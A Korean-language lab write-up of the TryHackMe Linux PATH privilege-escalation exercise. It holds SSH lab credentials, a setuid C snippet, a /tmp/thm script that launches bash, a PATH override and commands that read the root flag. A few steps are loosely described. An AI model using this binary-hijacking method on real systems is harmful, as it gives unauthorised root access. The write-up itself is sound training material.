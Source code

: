## Privilege Escalation: PATH
> TryHackMe의 "Linux Privilege Escalation: PATH" 실습을 기반으로, 환경 변수 PATH를 악용하여 실행 파일 대체 공격을 수행하고 루트 권한을 획득한 과정을 정리하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.92.239
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **권한 상승 방법**: `PATH` 환경 변수 조작을 통한 바이너리 하이재킹
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속
```bash
ssh karen@10.10.92.239
```
- karen 계정으로 타겟 머신에 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

---

#### 2.2 취약 실행 파일 확인 및 준비
- `/home/murdoch` 디렉토리로 이동하니 `test` 실행 파일과 `thm.py` 파일이 존재하였다.

![murdoch 파일 발견](./screenshots/murdoch_file.png)

- `thm.py`는 Python으로 작성된 프로그램으로, 내부에서 `os.system("thm")`을 호출하고 있었다. 이 부분을 악용하기 위해 `thm.py`의 내용을 모두 제거하고 C로 작성한 setuid 프로그램 코드로 교체하였다.

```c
#include<unistd.h>
void main() {
  setuid(0);
  setgid(0);
  system("thm");
}
```
- 이후 파일명을 `thm.c`로 저장하였다.

![코드 확인 및 작성](./screenshots/setuid_thm.png)

---

#### 2.3 리버스 쉘용 바이너리 작성
- `/tmp` 디렉토리로 이동하여 `thm`이라는 이름으로 셸 스크립트를 작성하였다.
```bash
echo "/bin/bash" > thm
chmod +x thm
```

![thm 셸 스크립트 작성](./screenshots/shell_script.png)

---

#### 2.4 PATH 환경변수에 /tmp 추가
- `PATH` 환경 변수에 `/tmp`를 최우선으로 설정하였다.
```bash
export PATH=/tmp:$PATH
```

![PATH 설정](./screenshots/path_tmp.png)

---

#### 2.5 SUID 파일 실행 및 루트 쉘 획득
- `/home/murdoch`로 돌아와 `test` 실행 파일을 실행하였다. 이 파일은 SUID 권한을 가지고 있었으며 내부적으로 `system("thm")`을 실행하므로 `/tmp/thm`이 실행되어 루트 쉘을 획득할 수 있었다.

```bash
./test
```

![루트 쉘 획득](./screenshots/root_shell.png)

---

#### 2.6 루트 쉘 검증 및 플래그 파일 획득
```bash
find / -name flag6.txt
cat /home/matt/flag6.txt
```
- 루트 권한을 가진 상태에서 시스템을 탐색하여 플래그를 획득하였다.

![플래그 획득](./screenshots/flag_captured.png)

---

### 3. 최종 결과
- PATH 환경 변수의 우선순위 특성을 악용하여 setuid 바이너리를 통해 루트 권한 획득 성공 (`uid=0(root)`).
- flag6.txt 파일에서 플래그 확보: `THM-736628929`

---

### 4. 배운 점
> ✅ 실습을 통해 PATH 환경 변수의 관리 부주의가 어떻게 치명적인 보안 취약점으로 이어질 수 있는지 체감할 수 있었다. 시스템 관리자가 경로 지정 없이 명령어를 호출하는 경우, 공격자가 원하는 실행 파일로 하이재킹이 가능하며, 특히 SUID 바이너리와 조합될 경우 권한 상승으로 직결될 수 있는 매우 위험한 구조임을 확인하였다.
